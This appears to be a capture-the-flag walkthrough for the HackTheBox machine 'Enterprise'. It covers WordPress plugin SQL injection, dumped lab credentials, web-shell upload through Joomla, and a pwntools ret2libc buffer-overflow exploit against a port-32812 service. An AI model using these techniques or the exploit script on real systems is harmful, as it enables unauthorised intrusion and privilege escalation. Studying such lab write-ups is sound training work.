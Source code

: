 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
<!--⚠️Imgur upload failed, check dev console-->
![[Pasted image 20240509222840.png]]
#### Port 80
- `WordPress 4.8.1`
[+] XML-RPC seems to be enabled: http://enterprise.htb/xmlrpc.php
![[Pasted image 20240509223512.png]]
#### Port 443
![](https://i.imgur.com/cgZhbqY.png)
![](https://i.imgur.com/6K5Oy1h.png)
![](https://i.imgur.com/dohhLyh.png)
- This Site Used to Give us hint on the port `32812`. So we need to get the wp-config.php then we can access that port, we need to exploit port `80`
	- DB Localtion: `/var/www/html/wp-config.php`
- I thought it has connection with the port `32812`, but it is nothing worked out.
	- ![](https://i.imgur.com/bXR7PiA.png)
	- I saw the plugin, so my another though is if this thing is wordpress plugin
- Yeap it is working.![](https://i.imgur.com/3z5Drmj.png)
	- Based on the code, we have sqli
- ![](https://i.imgur.com/ZbaOpb9.png)
![](https://i.imgur.com/sW202ax.png)
```
# Joomladb
geordi.la.forge@enterprise.htb : $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy
guinan@enterprise.htb : $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q

# Worpress 
william.riker : $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.
```
- the hash is not being Cracked
- I checked the "wp_post" table.
![](https://i.imgur.com/KP8UQb4.png)
` ZxJyhGem4k338S2Y , enterprisencc170 , u*Z14ru0p#ttj83zS6, ZD3YxfnSjezg67JZ `
![](https://i.imgur.com/3FPXcsV.png)
we got the creds ` wiliam.riker : u*Z14ru0p#ttj83zS6` - wordpress
` geordi.la.forge : ZD3YxfnSjezg67JZ ` - Joomla
#### Port 8080
![](https://i.imgur.com/foVP65b.png)
![](https://i.imgur.com/9obyjj9.png)

#### Port 32812
<!--⚠️Imgur upload failed, check dev console-->
![[Pasted image 20240509224040.png]]
![](https://i.imgur.com/zYVb5rE.png)

### Gaining Access
![](https://i.imgur.com/ZTzsXzS.png)

![](https://i.imgur.com/cKnsBQF.png)
` $password = 'NCC-1701E';`
![](https://i.imgur.com/Sk0pDCl.png)

## Internal
### Enumeration
MYSQL_PORT=tcp://172.17.0.2:3306
MYSQL_PORT_3306_TCP=tcp://172.17.0.2:3306
mysql://root:password@localhost:3306/wordpress

![](https://i.imgur.com/45Ea5vf.png)

/wordpress/mysql

/proc/*/mountinfo

![](https://i.imgur.com/CF9Sxyo.png)
```
/tmp/.sam
/tmp/.sam/enum.py
/tmp/.sam/enum.sh
/tmp/.sam/enummod.txt
/tmp/.sam/joomsearch.txt
/tmp/.sam/joopsearch.txt
```

/usr/src/wordpress

![](https://i.imgur.com/qUU6YGq.png)
![](https://i.imgur.com/LfDIHwl.png)
![](https://i.imgur.com/GGCzJmW.png)
- Nothing FOund, SO i went back to the joomla and logged in with the another credentials i got and uploaded a shell
	- `http://enterprise.htb:8080/administrator/index.php?option=com_extplorer&tmpl=component`
	- ![](https://i.imgur.com/DXjBivv.png)
![](https://i.imgur.com/8SqwNOw.png)
- They are 2 different docker instance
![](https://i.imgur.com/dvKiBu2.png)
` xxj31ZMTZzkVA `
![](https://i.imgur.com/jTpzPIi.png)
![](https://i.imgur.com/rlggBNc.png)
/usr/src/joomla/libraries/vendor/web.config
-rw-r--r-- 1 www-data www-data 183 Aug 14  2017 /var/www/html/libraries/vendor/web.config

### Gaining Access
- Nothing here, But 1 weird thing, the folder `files` is accessable from port `443` and port `8080` , Based on our enumeration they have different web server. so lets try to execute commands an get RCE on it
![](https://i.imgur.com/xwAAgEu.png)
### Maintaining Access
![](https://i.imgur.com/tOa1sjp.png)
![](https://i.imgur.com/m0EQP2q.png)
`picarda1`
- we tried the mains it returns and i got buffer overflow on it.
- ![](https://i.imgur.com/CsHRuAE.png)
Detail on [[Reverse Engineering]]
```python
from pwn import *

r = remote('10.129.211.4',32812)
context(os='linux',arch='i386')

junk = b"\x90" * 212

ret2libc = p32(0xf7e4c060)
ret2libc += p32(0xf7e3faf0)
ret2libc += p32(0xf7f6ddd5)

payload = junk + ret2libc

r.recvuntil(b"Enter Bridge Access Code:")
r.sendline(b"picarda1")
r.recvuntil(b"Waiting for input:")
r.sendline(b"4")
r.recvuntil(b"Enter Security Override:")
r.sendline(payload)

r.interactive()
```

![](https://i.imgur.com/xInr6kC.png)

# Random Notes
http://enterprise.htb/wp-content/themes/twentyseventeen/

